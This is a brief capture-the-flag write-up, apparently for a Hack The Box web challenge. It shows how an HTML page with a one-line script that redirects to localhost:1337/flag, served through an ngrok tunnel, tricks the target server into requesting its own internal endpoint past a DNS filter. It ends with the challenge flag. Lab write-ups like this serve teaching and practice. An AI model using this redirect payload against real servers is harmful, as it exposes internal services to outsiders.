

# Solution

We create a html file that contains a singular script that points back to `127.0.0.1:1337`

`index.html`:
```
<script>
	document.location = 'http://localhost:1337/flag'
</script>
```

Open a webserver that serves the html file, and open an ngrok tunnel to make it publicly available:




We then put our ngrok URL into the website, which will serve the HTML file to the webserver and then redirect the server to itself, bypassing the DNS filter:


## Flag:

`HTB{pwn1ng_y0ur_DNS_r3s0lv3r_0n3_qu3ry_4t_4_t1m3}`
